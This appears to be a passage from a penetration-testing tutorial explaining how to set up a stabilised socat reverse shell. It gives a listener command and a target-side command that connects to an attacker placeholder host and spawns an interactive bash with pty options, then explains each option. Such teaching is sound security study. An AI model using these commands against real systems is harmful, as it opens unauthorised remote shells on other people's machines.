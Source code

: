 Listener:

```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

We're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.


Attacker:

```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **`pty`**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **`stderr`**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells) 
- **`sigint`**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **`setsid`**, creates the process in a new session
- **`sane`**, stabilises the terminal, attempting to "normalise" it.